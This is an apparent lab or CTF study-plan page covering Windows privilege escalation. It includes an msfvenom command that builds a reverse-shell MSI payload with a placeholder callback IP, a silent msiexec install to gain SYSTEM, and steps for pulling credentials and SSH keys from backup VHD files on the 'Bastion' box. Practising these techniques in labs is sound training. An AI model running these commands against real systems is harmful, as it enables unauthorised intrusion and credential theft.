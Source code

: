 ### 📅 Thursday – Exploit AlwaysInstallElevated

#### ✅ Objectives:

- Exploit `AlwaysInstallElevated` to gain SYSTEM
    

#### 🔧 Tasks:

powershell

CopyEdit

`reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer`

If both are set to `1`:

- Create a `.msi` payload with `msfvenom`:
    
    bash
    
    CopyEdit
    
    `msfvenom -p windows/shell_reverse_tcp LHOST=yourip LPORT=4444 -f msi > shell.msi`
    
- Upload and run:
    
    powershell
    
    CopyEdit
    
    `msiexec /quiet /qn /i shell.msi`
    

#### 📄 Deliverables:

- Full proof of privesc using MSI method
    

---

### 📅 Friday – Root Bastion

#### ✅ Objectives:

- Enumerate backup files
    
- Recover passwords/SSH keys
    
- Escalate manually
    

#### 🔧 Tasks:

- Mount VHD files
    
- Look for credentials or key files
    
- Use recovered SSH keys to login as a higher-priv user
    

